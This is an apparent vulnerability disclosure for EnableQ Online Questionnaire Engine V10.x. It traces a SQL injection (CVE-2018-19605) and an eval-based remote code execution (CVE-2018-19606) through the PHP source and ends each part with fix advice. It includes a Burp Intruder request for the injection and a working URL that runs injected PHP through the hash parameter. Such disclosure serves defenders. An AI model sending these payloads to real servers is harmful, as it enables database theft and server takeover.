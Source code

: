###EnableQ SQLi&RCE Vulnerability  

####General description：  

**[1]CVE-2018-19605:EnableQ Online Questionnaire Engine V10.X has a SQL injection vulnerability.The vulnerability stems from the AjaxCheckTextRepeat.php file failing to filter the qid parameters. Remote attackers can use the vulnerability to obtain database sensitive information**  

**[2]CVE-2018-19606:EnableQ Online Questionnaire Engine V10.X has a Remote Code Execution Vulnerability in the front desk. Remote unauthorized attackers can use this vulnerability to execute code and gain server control**  

_ _ _

**Environment: **  
apache/php 7.0.12/EnableQ Online Questionnaire Engine V10.51,V10.54  

_ _ _

**[1]SQL Injection Vulnerability**

In the \public_html\JS\AjaxCheckTextRepeat.php file:  

![1.png](./img/1.png)
Line 56 gets the value of the variable ```hash``` via a GET request, and line 57 is split into an array assigned to ```$thisPageChecks``` by "|".  


![2.png](./img/2.png)
Line 61 traverses the ```$thisPageChecks``` array, and line 66 is split into arrays by "*" and assigned to ```$theQtnType```.  


![3.png](./img/3.png)
Line 111 enters the if statement when ```$theQtnType[0]``` is equal to 23, and line 116 splicing ```$_GET['qid']``` directly, and line 126 enters the database query, resulting in SQL injection.  

You can get the value of ```qid``` through Burp's intruder tool:  
```
GET /JS/AjaxCheckTextRepeat.php?qid=§1§%20where%201%20%23&hash=23*1*2| HTTP/1.1
Host: 127.0.0.1
Proxy-Connection: keep-alive
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.3202.94 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
DNT: 1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: PHPSESSID=0e7d8153fbdf12a52a290802ca18a570


```
The position of $1 traverses from 1 to 999,and the length that exists in the returned data is much smaller than that which does not exist.  

![4.png](./img/4.png)  
As shown in the figure, ```qid``` is 140.  

Poc in the poc directory(poc.py).  
![5.png](./img/5.png)  

Vulnerability fix recommendations: Encodes the data entered by the user or ```int($_GET['qid'])```.  

**[2]RCE Vulnerability**

In the \public_html\JS\AjaxCheckEmpty.php file:  
![6.png](./img/6.png)  
Line 3 defines the runexpcode function, in which line 7 executes the ```$code``` parameter via eval. If we can find the place to call the function and the ```$code``` parameter is controllable, then arbitrary code execution can be caused.  

![7.png](./img/7.png)  
The runexpcode function is called on line 1113 of the file, and the ```$theExpression``` parameter is passed, so let the value of $theCheckSkip on line 1112 be false.  

![8.png](./img/8.png)  
The ```$theExpressio```n parameter is derived from ```$theQtnType[2]``` on line 1107.  

To perform the above functions and assignments, you need to satisfy the following:can't enter line 49, but go to line 735.  
![9.png](./img/9.png)  
![10.png](./img/10.png)  

![11.png](./img/11.png)  
The ```$theQtnType``` is derived from the ```$theCheck``` parameter, which is split by "*" on line 41. The ```$theCheck``` parameter is again derived from ```$thisPageChecks```.  

![12.png](./img/12.png)  
As above, ```$thisPageChecks``` is obtained by the hash of the GET request and processed by "|".  

In summary, the 37th line obtains the ```hash``` parameter by GET, and then splits into an array ```$thisPageChecks``` by "|", then the 40th line traverses the array, and the 41st line divides the traversed value into an array ```$theQtnType``` by "*". Line 43 enters the conditional statement when the first value of the repartitioned array ```$theQtnType``` is "s1", and then executes the runexpcode function when ```$theQtnType[2]``` is not equal to m2, eventually resulting in remote code execution.  

You can get the value of ```qid``` through Burp's intruder tool:  
```
GET /JS/AjaxCheckTextRepeat.php?qid=§1§%20where%201%20%23&hash=23*1*2| HTTP/1.1
Host: 127.0.0.1
Proxy-Connection: keep-alive
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.3202.94 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
DNT: 1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: PHPSESSID=0e7d8153fbdf12a52a290802ca18a570


```
The position of $1 traverses from 1 to 999,and the length that exists in the returned data is much smaller than that which does not exist.  

![4.png](./img/4.png)  
As shown in the figure, ```qid``` is 140.  
Then request the following link to execute the phpinfo() function.  
```
http://yourdomain/JS/AjaxCheckEmpty.php?qid=140&hash=s1*7*555;phpinfo();exit*3*4*5*6*aGVoZQ==|
```
![13.png](./img/13.png)  

Vulnerability fix recommendations: Encode the data entered by the user or do not use the eval function.  

